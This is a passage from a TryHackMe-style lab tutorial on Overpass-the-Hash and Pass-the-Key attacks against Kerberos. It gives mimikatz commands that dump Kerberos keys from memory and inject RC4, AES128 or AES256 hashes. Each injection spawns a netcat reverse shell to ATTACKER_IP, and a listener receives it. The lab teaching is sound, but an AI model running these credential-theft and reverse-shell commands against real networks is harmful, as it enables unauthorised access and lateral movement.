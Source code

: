 
### Overpass-the-hash / Pass-the-Key

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (`nc64` is already available in THMJMP2 for your convenience):

**If we have the RC4 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).

To receive the reverse shell, we should run a reverse listener on our AttackBox:

**Kali**

```
nc -lvp 5556
```

ust as with PtH, any command run from this shell will use the credentials injected via mimikatz.



### Let's Get to Work!
